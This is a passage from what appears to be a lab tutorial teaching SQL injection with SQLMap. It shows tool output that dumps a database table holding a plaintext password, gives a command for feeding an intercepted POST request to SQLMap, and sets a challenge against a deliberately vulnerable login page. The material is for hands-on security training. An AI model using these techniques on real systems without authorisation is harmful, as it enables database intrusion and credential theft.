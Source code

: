 ```bash
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

However, unlike the URL used for testing above, you can also use POST-based testing, where the application sends data in the request's body instead of the URL. Examples of this could be login forms, registration forms, etc. To follow this approach, you must intercept a POST request on the login or registration page and save it as a text file. You can use the following command to input that request saved in the text file to the SQLMap tool:

```bash
user@ubuntu:~$ sqlmap -r intercepted_request.txt
```

## Challenge

In this task, we've attached a vulnerable web application for you to test SQL injection vulnerabilities. Let's start the Virtual Machine by pressing the Start Machine button given below. The machine will start, and an IP address will be displayed to you. You can now open the attack box by clicking the Start AttackBox button at the top. The AttackBox will open for you in the split view. You will use this machine to carry out SQL injection through the SQLMap tool.

Note: It is highly recommended to use the AttackBox for this task.

The web application has a login page that is hosted at `http://10.10.237.195/ai/login`. When you visit this URL, you will see a login page that is vulnerable to SQL injection.

Login page of a website that is vulnerable to SQL injection.
